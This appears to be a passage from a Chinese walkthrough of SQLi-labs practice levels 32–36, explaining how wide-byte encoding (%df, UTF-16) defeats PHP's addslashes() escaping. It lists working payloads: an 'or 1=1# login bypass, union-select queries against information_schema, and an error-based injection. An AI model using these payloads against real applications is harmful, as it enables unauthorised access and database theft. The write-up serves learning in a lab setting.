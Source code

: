 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```
**默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。** 所以您不应对已转义过的字符串使用 addslashes()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

payload 

	id=0%81'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+

![](Less-32.jpg)

[宽字节注入 参考资料](https://mp.weixin.qq.com/s?__biz=MzI4NjEyMDk0MA==&mid=2649847208&idx=1&sn=f207b86cd17135edd66470175d4a26fe&chksm=f3e41b2bc493923daa7d6401d3f15cb65cfd6be5dcdd61bed6081259dbd59c28e3fd8ae1bd49&scene=21#wechat_redirect)

##### 34关 post型 Bypass addslashes()

![](Less-34.jpg)

GET型的方式我们是以url形式提交的，因此数据会通过urlencode

POST型的方式

可以将UTF-8转换为UTF-16或者UTF-32,例如将 ```'``` 转换为utf-16为： �'  (我也不知道咋转的 :) ，使用的时候直接复制 ```�``` 吧
https://blog.csdn.net/s634772208/article/details/83715382
https://www.qqxiuzi.cn/bianma/Unicode-UTF.php)

在 输入框里填入基于宽字节改动的万能密码：

username： �'or 1=1#

![](Less-34-2.jpg)

或手动发送宽字节注入包：

![](Less-34-3.jpg)

![](Less-34-4.jpg)

水平越权

![](Less-34-5.jpg)

![](Less-34-6.jpg)

报错注入

	uname=-1%df' union select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a#&passwd=

回显为如下两种情况

![](Less-34-7.jpg)

![](Less-34-8.jpg)

据说还可以用post型盲注通杀payload，我这里测试未成功

##### 36关

可使用宽字节 %df 或者utf-16
	
	payload:  ?id=-1%df'or 1=1 -–+

```
